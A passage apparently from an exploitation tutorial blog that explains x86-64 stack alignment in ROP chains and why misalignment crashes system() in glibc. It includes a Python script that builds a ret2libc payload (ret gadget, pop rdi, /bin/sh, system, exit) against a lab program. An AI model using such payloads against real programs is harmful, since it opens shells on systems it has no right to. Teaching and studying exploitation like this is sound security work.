 ‍

> **Inside the callee**, on entry you see `rsp % 16 == 8`​​ — exactly what the ABI expects.

‍

However, in a ROP chain you don’t use `call`​; you stitch together a series of **​`ret`​**​ instructions instead. Each `ret`​ does:

- Pop the top 8 bytes from the stack into the instruction pointer
- Increments `rsp`​ by 8 (stack “shrinks” upward)

‍

Therefore, If you build a ROP chain without caring about alignment, each gadget’s `ret`​ will keep adding +8 to `rsp`​. By the time you hit `system()`​, your `rsp`​ can be at a multiple of 16 (i.e. `rsp % 16 == 0`​), which the ABI **does not** allow on function entry. Glibc then immediately executes a `movaps`​ on the (misaligned) stack and you get a General Protection Fault.

‍

![image](/blogs/the-stack-allignment-problem/image-20250619010638-pkl4ew5.png)

‍

![image](/blogs/the-stack-allignment-problem/image-20250619011149-g8u69fa.png)

**Updated Exploit**

```mathematica
File: exploit.py
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import struct
   2   │ libc_base = 0x7ffff7da9000
   3   │ payload = b"A" * 8                                           # offset to rbp 
   4   │ payload += b"B" * 8                                          # rbp
   5   │ payload += struct.pack("<Q", libc_base + 0x00000000000f7bb3) # ret; 
   6   │ payload += struct.pack("<Q", libc_base + 0x000000000002a145) # pop rdi; ret;
   7   │ payload += struct.pack("<Q", 0x7ffff7f50ea4)                 # address of /bin/sh
   8   │ payload += struct.pack("<Q", 0x7ffff7dfc110)                 # address of System function() 
   9   │ payload += struct.pack("<Q", 0x7ffff7deb340)                 # address of exit function
  10   │ 
  11   │ #we are using option <Q>, because we want to convert these 64 bit addresses to little endian format
  12   │ 
  13   │ 
  14   │ # print(payload)
  15   │ with open("exploit1", "wb") as f:
  16   │     f.write(payload)
  17   │ 
  18   │ print("Payload written to exploit1. Run with: `./vulnerable_program < input.txt`")

```
